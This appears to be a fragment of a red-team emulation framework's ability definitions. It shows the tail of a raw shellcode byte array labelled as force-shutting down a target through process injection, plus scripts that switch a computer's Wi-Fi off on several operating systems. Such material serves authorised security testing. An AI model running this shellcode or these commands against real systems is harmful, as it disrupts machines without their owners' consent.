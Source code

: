 ```
                                                                     '0x62, '
                                                                     '0x69, '
                                                                     '0x6e, '
                                                                     '0x2f, '
                                                                     '0x2f, '
                                                                     '0x2f, '
                                                                     '0x49, '
                                                                     '0xba, '
                                                                     '0x73, '
                                                                     '0x68, '
                                                                     '0x75, '
                                                                     '0x74, '
                                                                     '0x64, '
                                                                     '0x6f, '
                                                                     '0x77, '
                                                                     '0x6e, '
                                                                     '0x41, '
                                                                     '0x52, '
                                                                     '0x41, '
                                                                     '0x50, '
                                                                     '0x48, '
                                                                     '0x89, '
                                                                     '0xe7, '
                                                                     '0x52, '
                                                                     '0x53, '
                                                                     '0x51, '
                                                                     '0x57, '
                                                                     '0x48, '
                                                                     '0x89, '
                                                                     '0xe6, '
                                                                     '0x48, '
                                                                     '0x83, '
                                                                     '0xc0, '
                                                                     '0x3b, '
                                                                     '0x0f, '
                                                                     '0x05\n'}}},
  'name': 'Force shutdown a target system using Process Injection and raw '
          'shellcode',
  'source': 'data/abilities/impact/0821b0b0-7902-4a7b-8052-80bda5a43684.yml'},
 {'command': {'darwin': {'sh': {'cleanup': './wifi.sh on\n',
                                'command': './wifi.sh off\n',
                                'payloads': ['wifi.sh']}},
              'linux': {'sh': {'cleanup': './wifi.sh on\n',
                               'command': './wifi.sh off\n',
                               'payloads': ['wifi.sh']}},
              'windows': {'psh': {'cleanup': '.\\wifi.ps1 -On\n',
                                  'command': '.\\wifi.ps1 -Off\n',
                                  'payloads': ['wifi.ps1']}}},
  'name': 'Turn a computers WIFI off',
  'source': 'data/abilities/impact/2fe2d5e6-7b06-4fc0-bf71-6966a1226731.yml'}]
```
